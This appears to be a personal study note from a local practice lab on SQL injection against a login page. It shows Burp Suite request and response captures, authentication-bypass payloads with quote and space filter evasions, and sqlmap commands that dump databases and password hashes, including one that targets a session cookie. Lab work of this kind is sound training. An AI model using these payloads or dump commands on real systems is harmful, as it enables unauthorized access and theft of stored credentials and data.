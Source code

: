
[[1. Introduction to SQL Injection]]
[[1. SQLMAP]]
[[1. SQLi]]

## SQL Injection Checklist for Login Page : 

1. **Test Default Login :**

	- Since i am in the lab, the default creds are : `jeremy:jeremy`.

	- **In Burp Suite :**

```

## REQUEST

POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy

## RESPONSE


HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 04:48:21 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Sat, 02-Aug-2025 05:48:21 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


```

2. **Confirm SQLi Vulnerability (Authentication Bypass) :**

```
## - Test Basic Bypass in Repeater:

username=admin' OR 1=1#&password=jeremy
username=jeremy' OR 1=1#&password=jeremy
username=jeremy&password=' OR ''='# 
username=admin' OR '1'='1 -- &password=jeremy
username=jeremy%27%20OR%201=1%23&password=jeremy (encoded)

## - Handle Filters:
	- If ' is blocked, try:
	
username=admin" OR "1"="1#&password=jeremy
username=jeremy%27%20OR%20%271%27=%271%23&password=jeremy

	- If spaces are blocked, use /**/:
	
username=admin'/**/OR/**/1=1#&password=jeremy
```


## Using SQLMAP : 

```
POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy
```

1. Copy the req from Burp Suite and paste it in the txt file. `sql_req.txt`
2. `sqlmap -r request.txt --level=5 --risk=3 --batch --dump
	1. *If u have the cookie token from the request. Then you can add that cookie in the sqlmap cmd.*
	2. `sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=6967cabefd763ac1a1a88e11159957db" --level=5 --risk=3 --dump --batch`

```
#### Use with parameters:

- `--dbs` → list databases
- `--tables -D <db>` → list tables in a DB
- `--columns -T <table> -D <db>` → list columns
- `--dump -T <table> -D <db>` → dump data
- `--passwords` → try to get password hashes


```


3. `sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=1*" --level=5 --risk=3 --technique=BEUSTQ --dump`

	That `*` in the cookie isn’t just decoration — it tells `sqlmap`:
	
> 	“⚠️ THIS is the injection point — don’t guess it, inject here.”
	
	Let’s break it down like Jake does. 🧠

---

### 🧠 What Does `*` in sqlmap Do?

	### ✅ **Explicit Injection Marker**
	
	When you use `--cookie="session=1*"`  
	You're saying:
	
> 	“Hey sqlmap, inject SQL payloads _right at this exact spot_ in the cookie value — not elsewhere.”
	
	Instead of guessing all possible parameters (like GET, POST, or full cookie), you're laser-targeting a **specific location inside a string**.